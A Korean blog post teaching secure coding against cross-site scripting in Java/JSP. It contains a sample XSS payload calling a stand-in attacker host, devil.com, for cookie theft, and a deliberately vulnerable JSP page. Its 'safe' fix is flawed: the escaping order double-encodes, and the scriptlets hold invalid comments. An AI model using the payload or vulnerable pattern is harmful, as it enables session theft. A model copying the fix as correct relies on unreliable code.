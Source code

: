 ```yaml
---
title: Java 크로스 사이트 스크립트 코딩 기법
author: dejavuhyo
date: 2021-09-14 06:00:00 +0900
categories: [Language, Java]
tags: [cross-site-scripting, 크로스-사이트-스크립트]
---
```


## 1. 정의
크로스 사이트 스크립트(Improper Neutralization of Input During Web Page Generation, Cross-site Scripting)는 웹 페이지에 악의적인 스크립트를 포함해 사용자 측에서 실행되게 유도할 수 있다.

예를 들어 검증되지 않은 외부 입력이 동적 웹 페이지 생성에 사용될 경우, 전송된 동적 웹 페이지를 열람하는 접속자의 권한으로 부적절한 스크립트가 수행되어 정보 유출 등의 공격을 유발할 수 있다.

![cross-site-scripting](/assets/img/2021-09-14-cross-site-scripting/cross-site-scripting.png)

## 2. 안전한 코딩 기법

* 일반적으로는 사용자가 문자열에 스크립트를 삽입하여 실행하는 것을 막기 위해 사용자가 입력한 문자열에서 `<, >, &, "` 등을 replace 등의 문자 변환 함수나 메소드를 사용하여 `&lt, &gt, &amp, &quot`로 치환한다.

* HTML 태그를 허용하는 게시판에서는 게시판에서 지원하는 HTML 태그의 리스트(White List)를 선정한 후, 해당 태그만 허용하는 방식을 적용한다.

* 보안성이 검증된 API를 사용하여 위험한 문자열을 제거하여야 한다.

## 3. 예제
다음의 예제는 외부 입력을 name 값으로, 특별한 처리 과정 없이 결과 페이지 생성에 사용하고 있다. 만약 악의적인 공격자가 name 값에 다음의 스크립트를 넣으면, 희생자의 권한으로 attack.jsp 코드가 수행되게 되며, 수행하게 되면 희생자의 쿠키 정보 유출 등의 피해를 주게 된다.

예) `<script>url = "http://devil.com/attack.jsp;"</script>`

* 안전하지 않은 코드의 예

```jsp
<%@page contentType="text/html" pageEncoding="UTF-8"%>
<html>
    <head>
        <meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
    </head>

    <body>
        <h1>XSS Sample</h1>
        <%
        <!- 외부로 부터 이름을 받음 -->
        String name = request.getParameter("name");
        %>
        <!-- 외부로 부터 받은 name이 그대로 출력 -->
        <p>NAME:<%=name%></p>
    </body>
</html>
```

다음의 예제와 같이 외부 입력 문자열에서 replaceAll() 메소드를 사용하여 `<`와 `>` 같이 HTML에서 스크립트 생성에 사용되는 모든 문자열을 `&lt;, &gt;, &amp;, &quot;` 같은 형태로 변경함으로써 악의적인 스크립트 실행의 위험성을 줄일 수 있다. 그러나 이러한 방법이 위험성을 완전히 저거 했음을 의미하지는 않는다.

* 안전한 코드의 예

```jsp
<%@page contentType="text/html" pageEncoding="UTF-8"%>
<html>
    <head>
        <meta http-equiv="Content-Type" content="text/html; charset=UTF-8">
    </head>
    
    <body>
        <h1>XSS Sample</h1>
        <%
        <!-- 외부로 부터 이름을 받음 -->
        String name = request.getParameter("name");
        
        <!-- 외부의 입력값에 대한 검증을 한다. -->
        if ( name != null ) {
            name = name.replaceAll("<","&lt;");
            name = name.replaceAll(">","&gt;");
            name = name.replaceAll("&","&amp;");
            name = name.replaceAll("\"","&quot;");
        } else {
            return;
        }
        %>
        <!-- 외부 로 부터 받은 name에서 '위험 문자'를 제거한 후 출력 -->
        <p>NAME:<%=name%></p>
    </body>
</html>
```

## [출처 및 참고]
* <https://www.kisa.or.kr/public/laws/laws3_View.jsp?cPage=6&mode=view&p_No=259&b_No=259&d_No=55&ST=T&SV=>
